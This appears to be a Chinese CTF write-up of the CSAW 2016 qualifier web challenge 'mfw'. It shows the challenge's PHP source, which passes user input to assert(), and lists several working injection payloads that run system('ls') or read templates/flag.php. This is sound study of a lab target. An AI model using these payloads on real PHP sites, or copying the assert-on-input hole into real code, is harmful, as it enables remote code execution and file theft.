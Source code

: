 # Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

## 注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


#### 中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](images/1.png)

进入目录并查看文件：?page=flag'.system("cd templates;ls").'

![description](images/2.png)

查看flag.php：?page=flag'.system("cat templates/flag.php").'

![description](images/3.png)

浏览器F12进入网页源码看到flag。

![description](images/4.png)

拿到flag。

说一下 . 连接符，?page=flag'.system("ls").'带入后得到
assert("strpos('flag'.system("ls").'.php', '..') === false") or die("Detected hacking attempt!");  执行过程为 ：字符串'flag'和system("ls")和字符串'.php'拼接后，作为strpos()的第一个参数。重点是system()函数是会直接把结果输出的，不用echo，也可以输出，所以system("ls")就直接把目录输出了。

下面是几种方式：

(1) ?page=flag'.system("cat templates/flag.php").'

第一个assert变成：
~~~~
assert("strpos('templates/flag'.system("cat templates/flag.php").'.php', '..') === false") or die("Detected hacking attempt!");
~~~~
(2) 
~~~~
?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~
第一个assert变成：
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~

#### 注释型

注意：assert()函数会把传入的字符串当做php代码来执行。

如果注释掉后面的语句：

(1) ?page=','88')===false and system("cat templates/flag.php");//

第一个assert变成：
~~~~
assert("strpos('templates/','88')===false and system("cat templates/flag.php");//.php', '..') === false") or die("Detected hacking attempt!");
~~~~

(2) flag','..')+or+system('cat+templates/flag.php');//
或者写成 flag','..') or system('cat templates/flag.php');//

第一个assert变成：
~~~~
assert("strpos('templates/flag','..') or system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");
~~~~




